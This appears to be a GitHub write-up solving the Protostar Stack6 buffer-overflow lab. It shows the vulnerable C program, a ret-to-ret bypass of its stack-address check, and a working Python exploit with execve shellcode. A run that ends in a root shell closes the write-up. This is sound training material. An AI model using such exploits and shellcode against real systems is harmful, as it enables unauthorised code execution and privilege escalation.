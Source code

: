 Our goal is to solve this explotation challenge <i> [Stack6](https://exploit.education/protostar/stack-six/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}


```
## Problem of code
This is a standard buffer overflow challenge but with one difference from the previous one.
The code uses a compiler function called __builtin_return_address which gives us the current
return address of the function and then it checks if the return address starts with 0xbf which is 
the stack. 

So we can't redirect immediately to the stack.

What we will do is "return to the return command its self"

With this technique (return oriented programming) we will pass the check of return address and then the return command will pop
next word from stack and return there.



And then with this python code we will do the final explotation

```c
import struct

#This function generates a string like AAAABBBBCCCC... so that we can find some information -
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values in gdb

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)
        string =  string.split("UUUU")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
        Return = struct.pack ("I",0x080484f9)


#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        shellcode ="\x90"*100+"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
        print (string+ Return +EIP+shellcode)


```


Finally we execute like this

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

```
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6^C
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT��
whoami
root


```
